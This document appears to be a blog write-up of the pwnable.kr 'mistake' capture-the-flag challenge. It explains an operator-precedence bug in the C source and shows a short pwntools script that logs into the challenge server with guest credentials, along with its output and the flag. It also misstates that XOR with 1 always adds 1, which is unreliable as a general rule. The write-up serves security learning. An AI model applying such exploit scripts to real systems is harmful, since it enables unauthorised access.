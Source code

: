 ```yaml
---
layout: post
title: Binary Exploitation&#58; Pwnable.kr/mistake
---
```


## Pwnable.kr: mistake - Write-up

We have access to two files, an executable named ```mistake``` and a c file named ```mistake.c```. When we try to run the executable, we are prompted with an error and the program exits.
```
└─$ ./mistake 
can't open password 1
```

For the sake of learning, let's take a look at the file type.
```
└─$ file mistake 
mistake: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ef56e67046843c3d794fda2e5842140e937dd7c6, not stripped
```

Looks like a standard linux executable, dynamically linked, and not stripped.

Time to inspect the c file.
```c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
	int i;
	for(i=0; i<len; i++){
		s[i] ^= XORKEY;
	}
}

int main(int argc, char* argv[]){
	
	int fd;
	if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
		printf("can't open password %d\n", fd);
		return 0;
	}

	printf("do not bruteforce...\n");
	sleep(time(0)%20);

	char pw_buf[PW_LEN+1];
	int len;
	if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
		printf("read error\n");
		close(fd);
		return 0;		
	}

	char pw_buf2[PW_LEN+1];
	printf("input password : ");
	scanf("%10s", pw_buf2);

	// xor your input
	xor(pw_buf2, 10);

	if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
		printf("Password OK\n");
		system("/bin/cat flag\n");
	}
	else{
		printf("Wrong Password\n");
	}

	close(fd);
	return 0;
}
```

There is a good amount to unpack here, but right off the bat I notice an operation priority conflict.
```c
if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
```

In C programming, relational operators such as ```<``` and ```>``` take priority over assignment operators like ```=```. This means that the relational expression will be evaluated first followed by the assignment expression.

We know that ```open``` returns a non-negative value on success and ```-1``` on error. We know that the file ```password``` exists on the ```ssh``` server, so we can assume that the integer returned from ```open``` will be greater than or equal to ```0```. This would mean that the relational expression would evaluate to false and therefore the value ```0``` would be assigned to the file descriptor ```fd```. The ```fd``` file descriptor is an alias for ```stdin```.

Next, ```read``` reads in 10 bytes from ```stdin``` into a character array named ```pw_buf``` and ensures that the function read at least one byte.
```c
	char pw_buf[PW_LEN+1];
	int len;
	if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
		printf("read error\n");
		close(fd);
		return 0;               
	}
```

We are then prompted for a password and ten bytes from stdin are read into another character array named ```pw_buf2```.
```c
	char pw_buf2[PW_LEN+1];
	printf("input password : ");
        scanf("%10s", pw_buf2);
```

Now we get to the encryption function.
```c
	// xor your input
        xor(pw_buf2, 10);### xor()
```

### xor()

This function takes two parameters, a character array and an integer. The values being passed to the ```xor``` function are ```pw_buf2``` and the number of bytes read into ```pw_buf```. Then, a ```for``` loop is used to iterate over each character of ```pw_buf``` and encrypt it with the ```xor``` of ```1```.
```c
void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}
```

Once ```xor``` returns, the value of ```pw_buf``` and the new value of ```pw_buf2``` are compared. If they match, we get the flag.

### pwn

So we need a string for ```pw_buf2``` that when ```xor```ed with ```1``` equals ```pw_buf```. When you ```xor``` a value with 1, you add ```1``` to it. So if we make ```pw_buf``` the string ```"AAAAAAAAAA"```, we should be able to use ```"@@@@@@@@@@"``` and pass the check. Let's write a python script.
```python
#!/usr/bin/python


from pwn import *

conn = ssh(user="mistake", host="pwnable.kr", port=2222, password="guest")
proc = conn.process(executable="./mistake", argv=None, env=None)
proc.sendline("AAAAAAAAAA")
proc.sendline("@@@@@@@@@@")


proc.interactive()
```

All we are doing is connecting to the ```ssh``` server, executing the process, and sending the two lines of text we need. Let's see if we are successful.
```
└─$ python exploit.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] mistake@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./mistake') on pwnable.kr: pid 217238
/home/jake/Desktop/pwnable_kr/mistake/exploit.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  proc.sendline("AAAAAAAAAA")
/home/jake/Desktop/pwnable_kr/mistake/exploit.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  proc.sendline("@@@@@@@@@@")
[*] Switching to interactive mode
do not bruteforce...
input password : Password OK
Mommy, the operator priority always confuses me :(
[*] Got EOF while reading in interactive
```

Et Voila!

